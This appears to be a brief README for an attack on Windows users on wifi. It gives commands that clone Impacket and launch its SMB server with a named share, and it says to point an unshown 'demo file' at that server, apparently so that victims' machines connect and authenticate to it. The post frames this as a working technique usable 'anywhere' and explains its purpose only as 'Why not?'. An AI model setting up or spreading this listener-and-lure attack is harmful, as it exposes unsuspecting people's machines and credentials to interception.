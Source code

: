 ## When
Still works as of a few moments ago

## Where
Anywhere somebody has wifi enabled and is using Windows.

## How
```
git clone https://github.com/fortra/impacket.git
cd impacket/examples
python3 ./smbserver.py rustler /mnt -debug -smb2support
```

Point the accompanying demo file towards the smbserver.

## Why
Why not?
